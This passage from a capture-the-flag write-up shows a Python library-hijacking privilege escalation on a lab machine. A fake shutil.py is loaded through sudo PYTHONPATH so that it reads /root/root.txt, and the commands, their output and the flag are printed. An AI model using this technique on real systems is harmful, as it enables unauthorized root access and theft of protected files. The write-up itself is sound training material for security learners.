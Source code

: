     }

The next one is the `backup_web` function as this call an external python
script.

    :::bash
    backup_web()
    {
        if [ "$EUID" -eq 0 ]
        then
            echo "Running backup script in the background, it might take a while..."
            /opt/scripts/backup.py &
        else
            echo "Insufficient privileges to perform the selected operation."
        fi
    }

The python script import the `make_archive` function from `shutil`. And then
create a `tar.gz` archive from `/var/www/hml`.

    :::python
    #!/usr/bin/python3

    from shutil import make_archive

    src = '/var/www/html/'

    # old ftp directory, not used anymore
    #dst = '/srv/ftp/html'

    dst = '/var/backups/html'

    make_archive(dst, 'gztar', src)

As we can export our environmental variable to `sudo`, we can rewrote the
`shutil` module to execute the code we want. We wrote a specific `shutil.py` script:

        :::text
        def make_archive(a,b,c):
            print('ok')
            with open('/root/root.txt') as f:
                with open('/tmp/plop/flag.txt', 'w') as g:
                    g.write(f.read())

And run the web backup with specifying our `PYTHONPATH` environment variable.

    :::text
    waldo@admirer:/tmp/plop$ sudo PYTHONPATH=/tmp/plop /opt/scripts/admin_tasks.sh 6
    Running backup script in the background, it might take a while...
    waldo@admirer:/tmp/plop$ ok
    cat flag.txt
    6bd44137e00395497fefe44684913599

# Wrapping up
